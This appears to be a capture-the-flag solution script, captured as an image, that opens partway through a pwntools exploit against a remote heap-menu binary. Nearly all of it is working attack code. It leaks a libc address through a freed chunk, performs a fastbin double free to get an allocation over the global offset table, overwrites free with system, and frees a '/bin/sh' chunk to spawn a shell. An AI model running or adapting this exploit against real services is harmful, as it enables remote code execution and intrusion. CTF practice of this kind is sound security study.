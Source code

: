   ```python
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def add(size,cont='aaaa'):
    sla(':','1')
    sla('size?\n',str(size))
    sla('content:',cont)

def delete(index):
    sla(':','2')
    sla('index?\n',str(index))

def show(index):
    sla(':','3')
    sla('index?\n',str(index))
    ru('content:')
    return ru('-----------------')

# info
# gadget
# elf, libc
add(0x80)
add(0x58)
add(0x58)
add(0x58,'/bin/sh\x00')

delete(0)
data = show(0)[:-1].ljust(8,'\0')
log.hexdump(data)
libcbase = u64(data) - libc.sym['__malloc_hook'] - 0x68
info_addr('libcbase',libcbase)

delete(1)
delete(2)
delete(1)
debug()
add(0x58,p64(0x601ffa)) # got[free]-14-16
add(0x58)
add(0x58)
add(0x58,'aaaaaaaaaaaaaa'+p64(libcbase+libc.sym['system'])[:6])

delete(3)
  ```